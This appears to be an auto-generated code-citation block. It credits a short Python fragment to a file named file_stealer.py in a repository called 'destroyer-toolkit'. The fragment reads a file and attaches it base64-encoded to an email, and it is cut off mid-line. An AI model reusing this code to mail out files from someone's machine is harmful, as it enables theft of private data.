 # Code Citations

## License: desconhecido
https://github.com/richardgrandpa/destroyer-toolkit/tree/7f2f25275ab915f8a072208206f7d0742a7c636e/file_stealer.py

```
') as f:
                part = MIMEBase('application', 'octet-stream')
                part.set_payload(f.read())
                encoders.encode_base64(part)
                part.add_header('Content-Disposition', f'attachment; filename="{os.
```

